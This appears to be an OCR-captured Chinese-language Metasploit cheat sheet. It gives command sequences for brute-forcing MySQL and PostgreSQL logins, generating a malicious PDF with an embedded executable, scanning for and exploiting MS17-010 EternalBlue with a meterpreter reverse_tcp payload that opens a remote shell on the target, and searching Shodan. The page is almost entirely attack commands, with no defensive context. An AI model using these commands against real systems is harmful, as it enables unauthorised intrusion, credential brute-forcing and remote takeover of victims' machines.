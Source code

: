 ### MySQL数据库服务

```
use auxiliary/scanner/mysql/mysql_login
show options
set RHOST 192.168.29.137
set USER_FILE /root/users.txt
uset USERPASS_FILE /root/passwords.txt
exploit
```

### PostgreSQL数据库服务

```
use auxiliary/scanner/postgres/postgres_login
show options
set RHOSTS 192.168.29.137
exploit
```

### PDF文件攻击

```
use exploit/windows/fileformat/adobe_pdf_embedded_exe
show options
set FILENAME test.pdf
set INFILENAME /root/evil.pdf
exploit
```

### MS17_010

```
search ms17-010
use auxiliary/scanner/smb/smb_ms17_010 #漏洞扫描模块
set RHOST 192.168.29.143
exploit #发现存在漏洞
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
show options
set RHOST 192.168.29.143
set LHOST 192.168.29.134
exploit #进入meterpreter会话
shell #进入目标主机cmd
background #将meterpreter会话置于后台 回到MSF会话
sessions #查看所有会话
sessions -i 1 #回到1号会话
```

### Shodan搜索

搜索匹配iomega关键字的所有信息。

```
use auxiliary/gather/shodan_search
set SHODAN_APIKEY API密钥
set QUERY iomega
run
```
